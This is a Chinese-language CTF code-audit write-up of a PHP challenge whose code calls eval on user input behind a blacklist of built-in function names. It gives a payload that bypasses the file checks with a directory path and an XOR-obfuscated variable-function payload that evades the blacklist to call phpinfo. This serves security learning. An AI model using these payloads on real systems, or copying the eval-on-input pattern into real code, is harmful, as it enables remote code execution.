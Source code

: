```php
    if(check()){
      echo "Naaah" . "<br>";
    }else{
      eval($input);
    }
  }else{
    echo "File doesn't exist" . "<br>";
  }

}

function iterate($ass){
    foreach($ass as $hole){
        echo "AssHole";
    }
}

highlight_file(__FILE__);
?>
```

这是一道代码审计题，第一个点就是绕过`file_exists()`还有`is_file()`函数，payload是`thisfile=/var`使用目录就能绕过。

之后就是`check()`函数

```php
function check(){
  global $input;
  foreach (get_defined_functions()['internal'] as $blacklisted) {
      if (preg_match ('/' . $blacklisted . '/im', $input)) {
          echo "Your input is blacklisted" . "<br>";
          return true;
          break;
      }
  }
  $blacklist = "exit|die|eval|\[|\]|\\\|\*|`|-|\+|~|\{|\}|\"|\'";
  unset($blacklist);
  return false;
}
```

这个就特别狠了，把所有的内置函数都给干掉了.......

只要能绕过这个，我们就能进行命令执行...... 想起之前SUCTF使用异或进行命令执行.......

那时的payload为：

```
${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=phpinfo
```

我们一把梭过去，发现可以.....




